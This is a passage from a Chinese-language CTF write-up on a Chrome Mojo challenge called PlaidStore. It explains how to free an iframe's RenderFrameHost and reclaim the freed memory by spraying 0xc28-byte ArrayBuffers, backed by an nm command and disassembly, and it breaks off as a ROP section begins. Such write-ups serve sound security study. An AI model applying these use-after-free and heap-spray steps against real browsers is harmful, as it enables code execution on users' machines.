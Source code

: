 ```
```

执行后效果如图

[![](https://p2.ssl.qhimg.com/t017333d01f3e44867f.png)](https://p2.ssl.qhimg.com/t017333d01f3e44867f.png)

### <a class="reference-link" name="%E6%9E%84%E9%80%A0%20uaf"></a>构造 uaf

接下来是构造`uaf` , 首先是`var frame = document.createElement("iframe");` 创建一个 `iframe`, 然后`frame.srcdoc` 写入代码, 具体参考最后完整exp， 代码和前面 泄露地址一样，把`iframe` 里面的 `render_frame_host_` 地址泄露出来，然后把`PlaidStore` 对象和`iframe` 的 `render_frame_host_` 地址传递给 `parent`， `parent` 执行`document.body.removeChild(frame)` 释放 `iframe` ，接下来堆喷尝试重新拿到被释放的`render_frame_host_` 的内存

`RenderFrameHost` 对象使用`content::RenderFrameHostFactory::Create()` 函数创建

```
chrome$ nm --demangle  ./chrome |grep -i 'content::RenderFrameHostFactory::Create'  
0000000003b219e0 t content::RenderFrameHostFactory::Create(content::SiteInstance*, scoped_refptr&lt;content::RenderViewHostImpl&gt;, content::RenderFrameHostDelegate*, content::FrameTree*, content::FrameTreeNode*, int, int, bool)
```

对应的代码如下，`RenderFrameHost` 对象的大小是`0xc28`, 所以只需要喷一堆`0xc28` 大小的 `ArrayBuffer` 就有可能重新拿到被释放的对象

```
0x0000555559075a50 &lt;+112&gt;:   jmp    0x555559075aca &lt;content::RenderFrameHostFactory::Create(content::SiteInstance*, scoped_refptr&lt;content::RenderViewHostImpl&gt;, content::RenderFrameHostDelegate*, content::Fram
eTree*, content::FrameTreeNode*, int, int, bool)+234&gt;
// new(0xc28) 
   0x0000555559075a52 &lt;+114&gt;:   mov    edi,0xc28
   0x0000555559075a57 &lt;+119&gt;:   call   0x55555ac584b0 &lt;operator new(unsigned long, std::nothrow_t const&amp;)&gt;
   0x0000555559075a5c &lt;+124&gt;:   mov    rdi,rax
   0x0000555559075a5f &lt;+127&gt;:   mov    rax,QWORD PTR [r14]
   0x0000555559075a62 &lt;+130&gt;:   mov    QWORD PTR [rbp-0x38],rax
   0x0000555559075a66 &lt;+134&gt;:   mov    QWORD PTR [r14],0x0
   0x0000555559075a6d &lt;+141&gt;:   sub    rsp,0x8
   0x0000555559075a71 &lt;+145&gt;:   movzx  eax,BYTE PTR [rbp+0x20]
   0x0000555559075a75 &lt;+149&gt;:   lea    rdx,[rbp-0x38]
   0x0000555559075a79 &lt;+153&gt;:   mov    r14,rdi
   0x0000555559075a7c &lt;+156&gt;:   mov    rsi,rbx
   0x0000555559075a7f &lt;+159&gt;:   mov    rcx,r13
   0x0000555559075a82 &lt;+162&gt;:   mov    r8,r12
   0x0000555559075a85 &lt;+165&gt;:   mov    r9,r15

```

### <a class="reference-link" name="rop%20%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C"></a>rop 代码执行

查看`GetData` 函数的汇编代码
